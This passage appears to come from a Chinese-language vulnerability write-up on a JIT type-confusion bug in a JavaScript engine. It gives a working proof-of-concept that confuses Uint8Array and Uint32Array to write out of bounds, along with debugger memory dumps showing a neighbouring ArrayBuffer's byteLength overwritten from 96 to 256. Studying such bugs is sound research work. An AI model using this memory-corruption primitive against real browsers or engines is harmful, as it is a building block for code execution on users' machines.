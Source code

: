 ```
 ► 0x3ac4ec7485d0    cmp    qword ptr [rax], r11
   0x3ac4ec7485d3    jne    0x3ac4ec7485e2
```

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8"></a>漏洞利用

根据前面的分析，我们可以往`p[0]` 存入其他类型的对象，然后在`v7` 的内存访问中就可能出现类型混淆。

`vigneshsrao` 用了`Uint8Array` 和`Uint32Array` 这两个对象来构造类型混淆, 基本上按照saelo 的poc来。

```
buf=[];
for(let i=0;i&lt;0x10;i++)
        buf.push(new ArrayBuffer(0x60));
var abuf = buf[5];
var e=new Uint32Array(abuf);
e[0]=0x61626364;
e[1]=0x31323334;
const arr = [e,e,e,e,e];
function vuln(a1)`{`
        if(arr.length==0)`{`
                arr[3] = e;
        `}`
        const v11 =  arr.pop();
        // 修改 下一个 ArrayBuffer 的 size 字段
        v11[a1] = 0x100;
        for(let i =0;i&lt;100000;i++)`{``}`

`}`
p =  [new Uint8Array(abuf),e,e];
arr.__proto__=p;
for(let i=0;i&lt;2000;i++)`{`
        vuln(34);
`}`

for(let i=0;i&lt;buf.length;i++)
        print(i+' '+ buf[i].byteLength);
```

`ArrayBuffer` 的data slots 的最大inline 大小是 0x60, `vuln` 函数里修改`v11[34] = 0x100;` 当`v11 == e` ,`e[34]` 超过执行不会成功，当`v11 == Uint8Array(abuf)` 时，jit 仍认为`v11` 是`Uint32Array` 类型，jit 中去掉了type array 的类型检查，只检查了传入的`index` 是否越界，此时`Uint8Array(abuf)` 的size是`0x60` ， 于是可以成功写入内存，但是实际写的地址是`addr + 34 * 4` , 像下面这样，我们可以越界写修改`buf[7]` 的`byteLength` 字段

```
pwndbg&gt; search -t qword 0x3132333461626364   
                0x20c9e49383c0 'dcba4321'    
pwndbg&gt; x/40gx 0x20c9e49383c0-0x40         
// .. buf[6]
0x20c9e4938380: 0x00002746d7073a30      0x000020c9e4927330
0x20c9e4938390: 0x0000000000000000      0x00007fffeb5170c0
0x20c9e49383a0: 0x00001064f249c1e0      0xfff8800000000060
0x20c9e49383b0: 0xfffe169ac6f5b080      0xfff8800000000000
0x20c9e49383c0: 0x3132333461626364      0x0000000000000000
0x20c9e49383d0: 0x0000000000000000      0x0000000000000000
// ... buf[7]
0x20c9e4938420: 0x00002746d7073a30      0x000020c9e4927330
0x20c9e4938430: 0x0000000000000000      0x00007fffeb5170c0
0x20c9e4938440: 0x00001064f249c230      0xfff8800000000100// buf[7].byteLength
0x20c9e4938450: 0xfffa000000000000      0xfff8800000000000
0x20c9e4938460: 0x0000000000000000      0x0000000000000000
//..................
Please wait...
[+]: 0 96
[+]: 1 96
```

[+]: 2 96
[+]: 3 96
[+]: 4 96
[+]: 5 96
[+]: 6 256
[+]: 7 96
[+]: 8 96
[+]: 9 96
[+]: 10 96
[+]: 11 96
[+]: 12 96
[+]: 13 96
[+]: 14 96
[+]: 15 96